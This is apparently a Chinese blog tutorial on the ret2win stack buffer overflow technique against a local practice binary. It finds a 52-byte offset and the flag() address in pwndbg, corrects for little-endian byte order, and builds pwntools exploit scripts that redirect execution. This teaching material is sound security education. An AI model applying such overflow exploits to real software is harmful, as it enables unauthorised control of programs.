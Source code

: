 ```yaml
---
title: 'ret2win'
date: '2023-08-07'
lastmod: '2023-08-30'
tags: ['PWN', 'Stack']
draft: false
summary: '最基本的二进制漏洞利用'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

**ret2win** 中有一个 `win()` 函数（或等效函数）；一旦你成功地将执行重定向到那里，你就完成了挑战。

为了实现这一点，我们必须覆盖 EIP，但覆盖成我们想要的特定值。

为此，我们需要知道：

- 直到我们开始覆盖返回地址（EIP）为止的 `溢出 Padding`
- 我们想要将 EIP 覆盖成什么值

<Warning>
  当我说「覆盖 EIP」时，我的意思是覆盖压入到 EIP 中的已保存的返回地址。EIP 寄存器 并不位于栈上，因此不会被直接覆盖。
</Warning>

LINK

## 0x01 计算溢出 Padding

这可以通过简单的试验和错误找到。我们可以发送可变数量的字符，将 `Segmentation Fault` 消息和 pwndbg 结合使用，来判断我们何时覆盖了 EIP 。有一种比简单的暴力破解更好的方法：[德布鲁因（De Bruijn）序列](https://www.cubeyond.net/de-bruijn-sequences/)，为了方便起见，现在我们直接使用已经计算出的溢出 Padding。

<Note>
  除了覆盖 EIP 之外，还可能会因其他原因而出现分段错误。使用调试器确保 `溢出 Padding` 正确。
</Note>

这里的溢出 Padding 为 52 字节的偏移量。

## 0x02 确定 flag() 函数地址

现在我们需要在二进制文件中找到 `flag()` 函数的地址，这很简单：

```
$ pwndbg vuln
$ i fun
[...]
0x080491c3  flag
[...]
```

<Note>
  `i fun` 代表 **i**nfo **f**unction，可以列出分析中发现的函数。
</Note>

可以看到这里的 `flag()` 函数位于 `0x080491c3`。

## 0x03 编写地址

最后一个难题是弄清楚如何发送我们想要的地址。在 [二进制漏洞利用简介](https://www.cubeyond.net/stack-introduction/)中，我们发送的 `A` 变成了 `0x41` —— 这是 `A` 的 `ASCII 码`。所以解决方案很简单——我们只要找到 `ASCII` 码为 `0x08`、`0x04`、`0x91` 和 `0xc3` 的字符即可。

这比你想象的要简单得多，因为我们可以在 Python 中将它们指定为十六进制。

```python showLineNumbers
address = '\x08\x04\x91\xc3'
```

这使得事情变得容易得多。

<Tip>
  使用 `xxd` 可以以二进制或十六进制显示文件的内容：

  $ echo '\x41\x41\x41\x41' | xxd<br />
  00000000: 4141 4141 0a        AAAA.

  $ echo 'AAAA' | xxd<br />
  00000000: 4141 4141 0a        AAAA.
</Tip>

## 0x04 编写漏洞利用脚本

现在我们知道了溢出 Padding 和想要覆盖的值，我们可以使用 [pwntools](https://github.com/Gallopsled/pwntools) 与二进制文件交互，编写漏洞利用脚本。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

# 创建一个新进程
p = process('./vuln')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

# 输出「Exploited!」字符串则说明我们成功了
p.sendline(payload)

p.interactive()
```

如果你直接运行上面的脚本，就会发现一个小问题：它没有输出 `Exploited`。为什么？我们可以用调试器来检查一下。添加 hook `pwndbg` 的代码，以及 `pause()`，以便我们可以在想发送 `payload` 的时候发送 `payload` 。

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.terminal = ['alacritty', '-e']

p = process('./vuln')

# 下面这条指令可以在启动 pwndbg 后自动下断点
# 为了调试程序的问题，我们在 `unsafe` 的 ret 指令返回时设断点
gdb.attach(p, 'b *0x080491aa')

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

pause()
p.sendline(payload)

p.interactive()
```

现在让我们使用 `python exp.py` 运行该脚本，它将自动打开一个 `pwndbg` 窗口：

让我们在 `unsafe()` 返回时中断并读取返回地址的值：

```
$ disass unsafe
$ c

<< press any button on the exploit terminal interface >>

$ x/20wx $esp
0xffffd7dc:	0xc3910408
[...]
```

`0xc3910408`，看起来熟悉吗？这是我们试图发送的地址，只不过字节顺序被反转了，而这种反转的原因是 [字节顺序](https://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F) 使用大端序的系统将最高有效字节（具有最大值的字节）存储在最小的内存地址处，这就是我们发送它们的方式。使用小端序的系统的做法恰恰相反，这是有 [原因](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format) 的，并且我们遇到的大多数二进制文件都是小端序的。就我们而言，只要知道字节在使用小端序的可执行文件中 *payload 以相反的顺序存储* 就可以了。

## 0x05 确定字节顺序

`pwntools` 附带了一个名为 `checksec` 的工具，用于二进制分析。我们可以直接在 `pwndbg` 中使用这条指令。

```
$ checksec
[...]
Arch:     i386-32-little
[...]
```

因此可以确定，我们的程序是 32-bit 小端序的。

## 0x06 反转字节顺序

解决方法很简单：反转字节序

```python showLineNumbers
payload += '\x08\x04\x91\xc3'[::-1]
```

如果你现在运行它，它将成功输出 `Exploited!`：

```
$ python exp.py
[+] Starting local process './vuln' argv=[b'./vuln'] : pid 9645
[DEBUG] Sent 0x39 bytes:
[...]
[*] Switching to interactive mode
[DEBUG] Received 0x1b bytes:
[...]
Overflow me
Exploited!!!!!
```

我们已经成功改变了程序的执行流程，调用了 `flag()` 函数！

## 0x07 Pwntools 和 字节顺序

毫不奇怪，你并不是第一个想到「能否使字节顺序书写变得更简单」的人。幸运的是，`pwntools` 有一个内置的 `p32()` 函数可供使用！

```python showLineNumbers
payload += '\x08\x04\x91\xc3'[::-1]
```

改为：

```python showLineNumbers
payload += p32(0x080491c3)
```

这样就简单多了。唯一需要注意的是它返回字节而不是字符串，因此你必须将溢出 Padding 设置为字节字符串：

```python showLineNumbers
payload = b'A' * 52  # 注意 "b"
```

否则你会得到一个这样的报错：

```
TypeError: can only concatenate str (not "bytes") to str
```

## 0x08 最终的 Exploit 脚本

```python:exp.py showLineNumbers
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

p = process('./vuln')

payload = b'A' * 52
payload += p32(0x080491c3)

p.sendline(payload)

p.interactive()
```

